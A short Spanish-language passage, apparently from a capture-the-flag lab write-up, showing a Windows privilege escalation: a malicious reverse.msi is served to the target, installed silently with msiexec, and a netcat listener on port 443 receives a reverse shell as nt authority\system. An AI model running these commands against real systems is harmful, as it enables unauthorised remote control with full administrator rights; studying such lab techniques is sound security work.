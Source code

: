 Compartimos el archivo msi hacia la máquina víctima (a través de un servidor con python), nos ponemos en escucha por el puerto 443 y procedemos a su ejecución.

```bash
msiexec /quiet /qn /i C:\Windows\Temp\Privesc\reverse.msi

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 51996
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\System32>
```

Ya somos administradores del equipo y podemos visualizar la flag (root.txt).
